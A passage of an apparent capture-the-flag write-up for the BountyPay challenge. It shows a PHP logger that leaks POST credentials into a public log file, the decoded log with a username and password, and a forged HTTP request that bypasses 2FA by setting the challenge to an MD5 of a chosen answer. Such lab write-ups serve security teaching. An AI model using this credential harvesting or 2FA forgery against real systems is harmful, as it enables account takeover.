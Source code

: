 ```
[branch "master"]
	remote = origin
	merge = refs/heads/master
```
Through the config file found the git repo https://github.com/bounty-pay-code/request-logger.git.
The repo is php request logger .
through the [logger.php code](https://github.com/bounty-pay-code/request-logger/blob/master/logger.php)
```php
<?php
$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);
file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```
 found that it logs the POST and GET variables to the log file **bp_web_trace.log** which is in htdocs and can be accessed through server https://app.bountypay.h1ctf.com/bp_web_trace.log.
```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```
By base64 decoding we can get the first four requests of the server
```
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```
Using that creds we can login into the app.bountypay.h1ctf.com which has an 2FA check.
There is no session management, 2FA code is validated using the challenge parameter so 2FA is validated using some relation ship between challenge and challenge_answer.
```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com

username=brian.oliver&password=V7h0inzX&challenge=4810310b2c844799dc9c9d46d3838192&challenge_answer=fake
```
Seems like the `challenge == md5(challenge_answer)`, tried that one `challenge=144c9defac04969c7bfad8efaa8ea194&challenge_answer=fake`
Worked : )    -   Successfully logged into app.app.bountypay.h1ctf.com
